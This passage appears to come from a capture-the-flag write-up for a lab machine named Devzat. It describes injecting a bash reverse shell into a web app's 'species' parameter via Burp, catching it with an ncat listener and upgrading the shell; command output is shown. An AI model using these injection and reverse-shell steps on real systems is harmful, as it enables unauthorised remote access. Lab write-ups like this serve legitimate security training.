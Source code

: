 This function get's called when we add a new pet to the list, so let's intercept the request for it in burp and send it to repeater. Next we set up a ncat listener to catch the reverse shell.

```
$ nc -lnvp 7575
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```

The vulnerable parameter is the `species` parameter so we inject our bash reverse shell there, terminating before and after it with `;`, and send the request.

[![015_add_pet](/img/devzat/015_add_pet.png)](/img/devzat/015_add_pet.png)

This results in a reverse shell on our listener as patrick which we upgrade and fix the terminal size.

```
$ nc -lnvp 7575
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.95.249.
Ncat: Connection from 10.129.95.249:53630.
bash: cannot set terminal process group (923): Inappropriate ioctl for device
bash: no job control in this shell
patrick@devzat:~/pets$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
patrick@devzat:~/pets$ export TERM=xterm
export TERM=xterm
patrick@devzat:~/pets$ ^Z
[1]+  Stopped                 nc -lnvp 7575
$ stty raw -echo;fg
nc -lnvp 7575

patrick@devzat:~/pets$ stty rows 55 cols 236
```
